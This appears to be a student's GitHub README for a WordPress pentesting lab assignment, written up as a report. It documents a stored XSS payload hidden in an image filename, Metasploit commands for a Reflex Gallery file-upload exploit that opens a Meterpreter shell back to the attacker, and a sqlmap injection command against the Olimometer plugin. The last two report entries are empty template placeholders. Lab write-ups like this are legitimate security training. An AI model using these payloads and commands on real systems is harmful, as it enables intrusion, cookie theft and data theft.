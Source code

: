 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    -  2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    -  3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
<img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: 
  - [ ] ![WP_reflex_gallery_pwned](https://user-images.githubusercontent.com/98624766/163491702-53e1d5cb-5cbf-4be2-b410-b855596067fd.gif)
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
      -  1a. Upload image into Reflex gallery plugin.
    -  2. In Reflex gallery settings retrieve the short code and insert it into post. 
    -  ![WP_reflex_gallery_pages](https://user-images.githubusercontent.com/98624766/163492792-0498b52d-a217-4414-9fbb-126535e69990.png)

    -  3. Run metasploit from attacker machine using the following commands:
        - sudo service postgresql start
        - sudo msfdb init
        - msfconsole
    -  3a. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    -  4. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  - References:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133
  - Reflex Plugin 3.1.3 zip: [reflex-gallery.3.1.3.zip](https://github.com/peelingwave/cis221_codepath/files/8492582/reflex-gallery.3.1.3.zip)

### 3. WordPress Olimometer 2.56 SQL Injection
  - [ ] Summary: WordPress Olimometer plugin versions 2.56 and below suffer from a remote SQL injection vulnerability.
    - Vulnerability types: SQLI
    - Tested in version: WP 4.2, Olimometer 2.56
    - Fixed in version: Olimometer 2.57
  - [ ] GIF Walkthrough: ![sqlmap-olimometer](https://user-images.githubusercontent.com/98624766/163496922-57763920-7a90-4562-be8e-2e5273c1307d.gif)

  - [ ] Steps to recreate: 
    1. Ensure WP 4.2 and install Olimometer 2.56 or older onto target machine and activate the plugin. [olimometer.2.56.zip](https://github.com/peelingwave/cis221_codepath/files/8492878/olimometer.2.56.zip)

    2. In Olimometer plugin settings, retrieve short code and insert into post. ![olimometer_shortcode](https://user-images.githubusercontent.com/98624766/163495767-e013ea2b-952a-477a-87d1-d1059913cd6d.png)

    3. In attacker machine run sqlmap command:
       - sqlmap -u http://path.to.target.machine/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast

  - References: https://packetstormsecurity.com/files/139921/WordPress-Olimometer-2.56-SQL-Injection.html
  
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
